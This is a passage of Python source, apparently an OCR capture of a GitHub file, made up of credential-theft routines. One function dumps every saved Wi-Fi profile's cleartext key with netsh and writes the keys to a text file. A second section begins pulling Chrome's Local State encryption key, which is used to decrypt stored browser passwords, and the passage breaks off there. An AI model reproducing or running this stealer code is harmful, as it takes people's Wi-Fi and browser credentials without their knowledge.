 #start of wifi password extraction


def wifi_password():
    temp_out = subprocess.Popen(['netsh', 'wlan', 'show', 'profiles'],shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    data_network = ''
    while temp_out.poll() is None:
        data_network = data_network + temp_out.stdout.readline().decode('utf-8')
        #print(data_network)
    #print(data_network)
    networks = re.findall("(?:Profile\s*:\s)(.*?\\r)",data_network)
    #print(networks)
    mess = "WiFi Password"
    mess = mess + "------------------------------------------\\n"
    Wifi_name = "Network\t:\tPassword"
    for i in networks:
        i = i.replace("\\r", "")
        Wifi_name = i
        temp_out = subprocess.Popen(['netsh', 'wlan', 'show', 'profiles', i, "key=clear"],shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = ""
        while temp_out.poll() is None:
            output = output + temp_out.stdout.readline().decode('utf-8')
        #print(output)
        Type_net = re.findall("(?:Type\s*:\s)(.*?\\r)", output)[0]
        password = ""
        pas = re.findall("(?:Key\sContent\s*:\s)(.*?\\r)", output)
        if pas:
            password = pas[0]
        mess = mess + Wifi_name + " ::::: " + password + "\\n"
    #print(mess)
    direc = os. getcwd()
    filename = '\Wifi_pass.txt'
    filename = direc+filename
    f=open(filename,"w+")
    f.write(mess)
    f.close()

    
#end of wifi password extraction


#start of chrome extraction

def chrome_get_chrome_datetime(chromedate):

    return datetime(1601, 1, 1) + timedelta(microseconds=chromedate)

def chrome_get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"],
                                    "AppData", "Local", "Google", "Chrome",
                                    "User Data", "Local State")
    with open(local_state_path, "r", encoding="utf-8") as f:
        local_state = f.read()
        local_state = json.loads(local_state)
